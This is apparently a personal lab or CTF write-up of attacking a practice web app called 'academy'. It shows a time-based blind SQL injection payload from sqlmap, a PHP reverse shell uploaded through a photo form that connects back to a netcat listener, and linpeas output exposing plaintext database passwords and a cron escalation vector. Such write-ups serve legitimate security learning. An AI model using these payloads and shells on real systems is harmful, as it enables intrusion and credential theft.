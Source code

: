 ```bash
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sesssion=test' AND (SELECT 7947 FROM (SELECT(SLEEP(5)))tKIo) AND 'LbYK'='LbYK&submit=
---
[14:10:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:10:52] [INFO] fetched data logged to text files under '/home/l1ch/.local/share/sqlmap/output/192.168.109.132'

[*] ending @ 14:10:52 /2025-10-18/

```

- Valid SQLi payload: sesssion=' AND (SELECT 7947 FROM (SELECT(SLEEP(5)))tKIo) AND 'LbYK'='LbYK
    - worked for both `/session` and `department`

At this point I started wondering if I was overcomplicating this, which would usually be when I look to a senior engineer for point in the right direction, so in my case I looked to a walkthrough. I thought working from the `admin` panel would have been the best way to continue to escalate or get a shell, however the walkthrough showed me that using the photo upload feature in `/academy` (non-admin panel) allowed for code exec, which if uploading a php reverse shell script allows you to connect and get a reverse shell.

Here is how that was done:
- paste code from https://github.com/pentestmonkey/php-reverse-shell to a shell script: `└─$ nano payloads/phprvshell.php` 
    - Ensure code is pointed at correct IPADDR and port for you, and other options are satisfied
- start nc listener on attack box for port and IP addr (see [[Shell Ops]] for more details)
- upload shell script to vuln app, like you would in the below screenshot by clicking `browse` > `update`:
![[Pasted image 20251018181558.png|500]]

- Reverse shell should have started on `netcat` listener you set up:
```bash
└─$ nc -nvlp 1234               
listening on [any] 1234 ...
connect to [192.168.109.128] from (UNKNOWN) [192.168.109.134] 34150
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 15:58:18 up 4 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

- From there we uploaded [[Linpeas|linpeas]] ran it, and got this useful output out of it:
```bash
==MYSQL PWD==

/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";
/var/www/html/academy/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";

Linpeas potential escalation vector:
* * * * * /home/grimmie/backup.sh
```
